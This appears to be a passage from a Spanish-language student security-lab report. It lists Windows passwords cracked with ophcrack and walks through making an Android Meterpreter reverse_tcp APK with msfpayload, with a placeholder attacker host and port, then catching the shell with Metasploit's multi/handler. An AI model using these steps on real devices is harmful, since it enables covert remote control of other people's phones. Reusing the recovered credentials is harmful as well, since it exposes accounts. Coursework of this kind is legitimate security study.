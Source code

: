 \section*{Apartado 1.2}

\subsubsection*{Crack de contraseñas de Windows}

Luego de la ejecución de la herramienta \texttt{ophcrack} utilizando el directorio especificado se encontraron los siguientes usuarios con sus contraseñas.

\begin{itemize}
    \item root: supervaca
    \item nico: q0w9e8r7t6y
    \item alumno: 1234
\end{itemize}

\section*{Apartado 1.3}

\subsection*{Meterpreter}

\texttt{Meterpreter} es uno de los payloads provistos por \texttt{Metasploit Project} para el control de la pantalla de un dispositivo, para navegarm descargar y subir archivos.

El procedimiento para la utilización de \texttt{Meterpreter} y ejecutar un shell reverso en otro equipo podría resumirse en los siguientes pasos.

Utilizando \texttt{msfpayload} se genera el payload para el target deseado.

\texttt{\$ msfpayload android/meterpreter/reverse\_tcp LHOST=<IP del atacante> LPORT=<Puerto del atacante> > file.apk} 

Esto generará nuestro payload en un archivo .apk. Luego se instala dicho APK en un dispositivo Android. Se abre nuevamente en nuestra computadora msfconsole, luego:

\begin{enumerate}
    \item Abrir \texttt{msfconsole}
    \item Especificar el handler a utilizar.\\
        \texttt{\$ use exploit/multi/handler} 
    \item Con el comando \texttt{payload} especificar el target para el shell.\\
        \texttt{set payload android/meterpreter/reverse\_tcp} 
    \item Setear \texttt{LHOST} y \texttt{LPORT} con la IP y puerto del equipo atacante.
    \item \texttt{exploit} para abrir la conexión con el shell reverso. El equipo quedará en espera.
\end{enumerate}

